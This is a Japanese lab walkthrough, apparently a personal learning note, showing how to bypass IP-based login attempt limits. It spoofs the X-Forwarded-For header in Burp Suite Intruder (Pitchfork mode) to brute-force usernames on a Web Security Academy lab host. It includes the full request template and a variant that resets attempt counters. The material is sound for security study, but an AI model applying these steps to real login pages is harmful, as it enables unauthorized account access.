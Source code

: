 # Burp Suite で同一 IP アドレスによるアクセス数制限のあるページを攻撃

※ハッキングラボで実験しています。一般的な Web サイトでは使用しないでください

プロキシ、ロードバランサーを通して Web サーバにアクセスすると、Web サーバから見たクライアント IP アドレスはプロキシのものになります。それを解決するために、プロキシ、ロードバランサでクライアントの IP アドレスを記録します。仲介サーバが増えると、末尾に IP アドレスを付加していきます。

```html
X-Forwarded-For: <client>, <proxy1>, ...</proxy1></client>
```

ただし、クライアントで http リクエストを改変し、X-Forwarded-For の IP アドレスを自由に変更することが出来ます。(IP スプーフィング)

Web サイトによっては、同一 IP アドレスでのログイン試行に制限を儲けている場合がありますが、このような Web サイトに対してブルートフォース攻撃を仕掛けることを考えます。

- 1. Burp Suite を起動します
- 2. Proxy タブからブラウザーを起動
- 3. 攻撃対象 Web サイトにログインします
- 4. HttpHistory からログインリクエストを選択し、Send to intruder する
     ![1](https://github.com/pea-sys/Til/assets/49807271/83046723-79d7-4240-9a30-e5ca77a8684b)

* 5. intruder で ip アドレスとログイン id をパラメータ化します

```
POST /login HTTP/2
Host: 0a3600e804248a3c8088cb4600de0090.web-security-academy.net
Cookie: session=VfKHOww2FZ2QhRBzyYx6Iu1Z7mBNlcaT
Content-Length: 30
Cache-Control: max-age=0
Sec-Ch-Ua:
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: ""
Upgrade-Insecure-Requests: 1
Origin: https://0a3600e804248a3c8088cb4600de0090.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.5735.199 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a3600e804248a3c8088cb4600de0090.web-security-academy.net/login
Accept-Encoding: gzip, deflate
Accept-Language: ja,en-US;q=0.9,en;q=0.8
X-Forwarded-For: §ip§

username=§id§&password=pass
```

- 6. Attack type を Pitchfork にします
- 7. Payload タブを選択し、1 つ目のパラメータに数字をセットし、2 つ目のパラメータに id リストをセットします
     ![2](https://github.com/pea-sys/Til/assets/49807271/4dc8259a-6dd5-4213-ae0a-d0353263e29b)

- 8. Start Atack 押下で攻撃を開始します。

※別パターンとして、ログインに成功すると試行回数をリセットする仕組みを入れている Web サイトの場合は、自分のアカウントのログインを都度攻撃に挟みこむことでブルートフォース攻撃が出来る
